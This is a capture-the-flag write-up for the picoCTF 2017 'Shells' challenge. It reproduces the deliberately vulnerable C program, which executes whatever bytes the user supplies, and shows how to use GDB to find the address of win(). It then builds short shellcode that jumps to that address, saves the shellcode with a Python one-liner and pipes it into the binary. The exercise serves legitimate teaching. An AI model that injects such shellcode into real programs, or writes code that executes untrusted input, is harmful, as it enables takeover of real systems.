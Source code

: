 ## Writeup Shells
###picoCTF2017

The objective is try to get the flag of this level. The information that is given is the binary (wich is running in a certain IP:port) and the soruce code of it: 


```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>

#define AMOUNT_OF_STUFF 10

//TODO: Ask IT why this is here
void win(){
    system("/bin/cat ./flag.txt");    
}


void vuln(){
    char * stuff = (char *)mmap(NULL, AMOUNT_OF_STUFF, PROT_EXEC|PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
    if(stuff == MAP_FAILED){
        printf("Failed to get space. Please talk to admin\n");
        exit(0);
    }
    printf("Give me %d bytes:\n", AMOUNT_OF_STUFF);
    fflush(stdout);
    int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
    if(len == 0){
        printf("You didn't give me anything :(");
        exit(0);
    }
    void (*func)() = (void (*)())stuff;
    func();      
}

int main(int argc, char*argv[]){
    printf("My mother told me to never accept things from strangers\n");
    printf("How bad could running a couple bytes be though?\n");
    fflush(stdout);
    vuln();
    return 0;
}

```

Notice that the funcion `win()` seems to retrieve information about the flag, but there is no call to this function in the `main()` or `vuln()` function.

If you execute the program you'll realise that it asks for entering some bytes in the variable `stuff`, and it may be a good place to exploit.

So what we'll gonna try is to insert some code that makes the program "jump" to the `win()` function.

Although we have the binary, we compile it again with the following options: 

`gcc -fno-stack-protector -z execstack -m32 -o shells.out shells.c`

In this case we use `-fno-stack-protector` so there's no stack protection and `-m32` cause the original binary is 32bits.

We'll use GDB to debug the binary:

```
$ gdb -q shells.out               
Reading symbols from shells.out...(no debugging symbol
s found)...done.                                      
(gdb)                                                 
```
What we want to know is the address for the `win()` function.

```
(gdb) p win                                           
$1 = {<text variable, no debug info>} 0x804853b <win> 
(gdb)                                                 

```

For this case what we want the execution of the program to jump to this address. The solution is to write some code that can be inserted in `stuff` and the executed:

```asm
mov eax, 0x804853b
call eax
````
*If you are using a 64bit binary you can use `rax` register.*

If you Assemble de code you'll get the following string:

```

"\xB8\x3B\x85\x04\x08\xFF\xD0"

```

That's the string we should use to jump to the `win()` function.

Finally we save this string to a file:

```
python -c "print('\xB8\x3B\x85\x04\x08\xFF\xD0')" >payload

```

And the we use it to run the binary:
```
cat payload - | shell.out

```



















